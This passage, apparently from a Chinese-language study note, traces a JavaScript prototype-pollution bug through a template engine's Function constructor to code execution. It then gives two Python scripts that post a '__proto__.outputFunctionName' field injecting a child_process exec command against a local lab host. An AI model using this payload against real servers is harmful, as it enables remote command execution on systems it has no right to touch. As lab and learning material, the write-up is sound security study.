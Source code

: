 ```javascript

    return d;
};
```

- 此时的keypart

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682757303464-75a4edde-b5cc-4e21-a5f9-d9c2e6724e24.png#averageHue=%23272b31&clientId=u10df4e69-9145-4&from=paste&height=451&id=u943d05c2&originHeight=902&originWidth=1537&originalType=binary&ratio=2&rotation=0&showTitle=false&size=199099&status=done&style=none&taskId=u184f7c53-fc5b-405b-bce4-4646d48650c&title=&width=768.5)

- 当for循环执行完时，发现已经给Object添加了一个属性，且值是我设定的值

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682757534919-e1031ff9-676c-4128-97ca-fc635716225f.png#averageHue=%23252a31&clientId=u10df4e69-9145-4&from=paste&height=430&id=u26be5b8a&originHeight=860&originWidth=1745&originalType=binary&ratio=2&rotation=0&showTitle=false&size=206983&status=done&style=none&taskId=udf9ef393-17ba-49a6-a894-02e8c384bdb&title=&width=872.5)

- 上面构建完了，此时我们跳到用的地方

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682758364815-b5170830-3e87-408d-b4b0-435be6c9b9d8.png#averageHue=%231f2023&clientId=u10df4e69-9145-4&from=paste&height=154&id=ubd0e3b2a&originHeight=307&originWidth=1774&originalType=binary&ratio=2&rotation=0&showTitle=false&size=66267&status=done&style=none&taskId=u2a3bd0ac-df7c-405c-8426-57a54c540d6&title=&width=887)

- 这里发现ctor就是Function，根据chatgpt，Function可以自定义函数

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682758399255-36c2f92b-9788-472f-b47c-2e4213ffc5b2.png#averageHue=%23f0f1f1&clientId=u10df4e69-9145-4&from=paste&height=506&id=udf633c50&originHeight=1012&originWidth=1233&originalType=binary&ratio=2&rotation=0&showTitle=false&size=188031&status=done&style=none&taskId=u15de536b-06eb-480c-aa87-36fc4b44615&title=&width=616.5)

- 此时我们看src的值，这里已经拼成了函数中的语句，所以可以执行

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682758475943-11fa7dac-8821-41a8-8528-f431d4326d88.png#averageHue=%232e3135&clientId=u10df4e69-9145-4&from=paste&height=454&id=u05084ea9&originHeight=907&originWidth=1278&originalType=binary&ratio=2&rotation=0&showTitle=false&size=123233&status=done&style=none&taskId=u8afa93a8-7cc4-4609-a60c-44b5b43f1f5&title=&width=639)
## python用post传文件
:::info

- files的参数是一个字典，字典的key是上传的包中的name，**value必须是一个元组，第一个参数是filename，第二参数是文件对象**
:::

- 这是第一种方式，元组的第二个位置是一个字符串，它将被视为文件内容
```python
url = "http://192.168.56.128:8001"
cmd = 'cat /root/WebstormProjects/untitled1/src/index.js > /root/WebstormProjects/untitled1/2'
r = requests.post(url, files={
    "__proto__.outputFunctionName": (
        None,
        f"x;process.mainModule.require(\'child_process\').exec(\"{cmd}\");x"
    )
})
print(r.request.body)


```

- 这是第二种方式，创建一个文件对象，然后再作为files的参数
```python
url = "http://192.168.56.128:8001"

cmd = 'cat /root/WebstormProjects/untitled1/src/index.js > /root/WebstormProjects/untitled1/2'

x = f"x;process.mainModule.require(\'child_process\').exec(\"{cmd}\");x"
cmd_io = io.StringIO(x)
poc = {"__proto__.outputFunctionName":(None,cmd_io)}
r = requests.post(url, files=poc)
print(r.request.body)

```
## 总结
